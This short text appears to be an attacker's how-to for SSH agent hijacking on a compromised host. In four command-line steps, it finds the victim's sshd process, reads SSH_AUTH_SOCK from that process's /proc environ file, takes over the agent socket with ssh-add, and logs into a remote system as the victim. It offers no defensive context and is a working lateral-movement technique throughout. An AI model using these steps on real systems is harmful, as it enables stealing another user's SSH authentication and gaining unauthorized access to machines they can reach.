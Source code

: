 Step 1: We first determine the SSH process ID of the user on the
compromised host: 
```bash
ps aux |grep sshd
```

Step 2: Determine the SSH_AUTH_SOCK environment variable for the sshd PID:
```bash
grep SSH_AUTH_SOCK /proc/<PID>/environ
```

Step 3: We then hijack the targets ssh-agent socket:

```bash
SSH_AUTH_SOCK=/tmp/ssh-XXXXXXX/agent.XXXX ssh-add –l
```


Step 4: Finally, we log into the remote system our victim is logged into as the target: 
```bash
ssh remotesystem -l victim
```